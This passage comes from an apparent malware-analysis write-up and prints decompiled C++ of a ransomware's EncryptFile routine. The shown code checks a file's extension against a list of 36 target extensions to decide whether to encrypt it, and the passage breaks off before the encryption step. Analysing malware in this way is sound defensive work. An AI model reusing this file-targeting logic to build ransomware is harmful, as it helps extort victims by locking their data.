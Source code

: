 <aside>
💡

Here I have declared a custom structure, because accessing its elements was rather unreadable. Perhaps I did not understand its purpose correctly, but it is not important, as it will not be useful in the analysis of the algorithm

</aside>

The following features look more interesting:

```cpp
__int64 __fastcall thunk_EncryptFile(wchar_t *fileName)
{
  EncryptFile(fileName, fileEncryptionKey);
  return FreeHeapMemory(fileName);
}

__int64 __fastcall EncryptFile(wchar_t *name, BYTE *encryptionKey)
{
  int v2; // eax
  int fileNameLength; // eax
  __int64 result; // rax
  unsigned __int8 alignBytes; // [rsp+40h] [rbp-78h]
  bool v6; // [rsp+41h] [rbp-77h]
  unsigned __int8 needEncrypt; // [rsp+42h] [rbp-76h]
  unsigned int i; // [rsp+44h] [rbp-74h]
  unsigned int v9; // [rsp+48h] [rbp-70h]
  char *a2; // [rsp+50h] [rbp-68h]
  HANDLE hFile; // [rsp+60h] [rbp-58h]
  int a3; // [rsp+68h] [rbp-50h]
  DWORD LastError; // [rsp+6Ch] [rbp-4Ch]
  char *filePath; // [rsp+70h] [rbp-48h]
  CHAR *fileName; // [rsp+78h] [rbp-40h]
  const WCHAR *lpNewFileName; // [rsp+80h] [rbp-38h]
  __int64 v17; // [rsp+88h] [rbp-30h]
  LARGE_INTEGER FileSize; // [rsp+98h] [rbp-20h] BYREF
  __int64 v19; // [rsp+A0h] [rbp-18h]

  needEncrypt = 0;
  v2 = wstrlen(name);
  fileName = AllocateMemoryFromHeap(v2 + 1);
  fileNameLength = wstrlen(name);
  s_strcpy(name, fileName, fileNameLength);
  v17 = std::ostream::operator<<(std::cout, name);
  std::ostream::operator<<(v17, sub_7FF749A77710);
  filePath = PathFindExtensionA(fileName);
  // Should the file be encrypted
  if ( *filePath )
  {
    v9 = strlen(filePath);
    a2 = AllocateMemoryFromHeap(v9);
    memcpy_0(a2, filePath + 1, v9 - 1);
    sub_7FF749A764B0(a2, v9 - 1);
    for ( i = 0; i < 0x24; ++i )
    {
      a3 = strlen(*&targetExtensions[8 * i]);
      if ( compare(*&targetExtensions[8 * i], a2, a3) )
      {
        needEncrypt = 1;
        break;
      }
    }
    FreeHeapMemory(a2);
  }
  FreeHeapMemory(fileName);
```